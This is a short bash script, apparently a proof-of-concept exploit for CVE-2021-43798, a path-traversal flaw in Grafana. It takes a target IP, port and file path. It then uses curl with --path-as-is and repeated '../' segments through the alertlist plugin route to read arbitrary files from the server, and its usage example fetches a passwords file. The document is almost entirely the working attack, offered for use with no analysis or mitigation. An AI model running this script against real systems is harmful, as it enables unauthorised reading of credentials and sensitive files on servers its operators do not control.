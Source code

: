 #!/bin/bash
# written by SteveIrwinCyber 
if [ "$1" == "-h" ] ; then
        echo "Syntax: ./CVE-2021-43798.sh <IP> <port> <File>" 
        echo "./CVE-2021-43798.sh 192.168.1.1 3000 /users/passwords.txt"
        exit 0
fi

if [ -z "$1" ] ; then
        echo "Syntax: ./CVE-2021-43798.sh <IP> <port> <File>"
        echo "./CVE-2021-43798.sh 192.168.1.1 3000 /users/passwords.txt"
        exit 0
fi


curl --path-as-is http://$1:$2/public/plugins/alertlist/../../../../../../../../$3
